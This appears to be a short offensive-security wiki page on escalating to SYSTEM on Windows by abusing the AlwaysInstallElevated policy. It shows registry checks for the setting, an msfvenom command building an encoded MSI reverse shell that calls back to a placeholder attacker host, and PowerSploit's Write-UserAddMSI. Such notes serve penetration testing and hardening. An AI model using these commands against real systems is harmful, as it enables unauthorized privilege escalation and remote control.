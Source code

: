 A functionality that allows a regular user to install MSI files with high privileges.

Windows environments provide a group policy settings which allow a regular user to install a Microsoft Windows Installer Package (MSI) with system privileges. This can be discovered in environments where a standard users wants to install an application which requires system privileges and the administrator would like to avoid to give temporary local administrator access to a user.

From the security point of view this can be abused by an attacker in order to escalate his privileges to the box to SYSTEM.

AlwaysInstallElevated is a functionality that offers all users(especially low-privileged user) on a windows machine to run any MSI file with elevated privileges. MSI is a Microsoft based installer package file format which is used for installing storing and removing of a program.

Here is an Example on how to check for this functionality. This is the manual way, there al Metasploit Modules and Powershell scripts that can search for these, but here we will use SharpUp a Vulnerability check that is similar to PowerUp but in C# code.

## Reg Check

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
```

![](https://dmcxblue.gitbook.io/~gitbook/image?url=https%3A%2F%2F244509215-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-Lx2b2zLkTKHrsGfxMoR%252F-LzYDP-XfEjPXc0sY0gB%252F-LzYFqeWeNKfxr8aDsGN%252Fimage.png%3Falt%3Dmedia%26token%3D543c5dc2-b746-406a-a5eb-7e1d26a25945&width=768&dpr=4&quality=100&sign=e3a4afae171c4672a9f6dfa752530a382d076a5d61ac744d7f3d446576756355)

## SharpUp audit

![](https://dmcxblue.gitbook.io/~gitbook/image?url=https%3A%2F%2F244509215-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-Lx2b2zLkTKHrsGfxMoR%252F-LzYG4CJMbXwAEhq5pXs%252F-LzYHeozYT580-o3i3aa%252Fimage.png%3Falt%3Dmedia%26token%3D4911d0e0-d889-4ca4-81d1-2be0b90de0c6&width=768&dpr=4&quality=100&sign=51ed6d9194d19e3d562780c7c7fc42bf3db3b04d00931c49b5cccf23fccedf6a)

So how do we move from here, we will need to simply create an MSI file that can connect back to our attacker machine. I will create simply binary using msfvenom.

## MSFVenom

```
msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi
```

## PowerSploit Method

```
Write-UserAddMSI
```
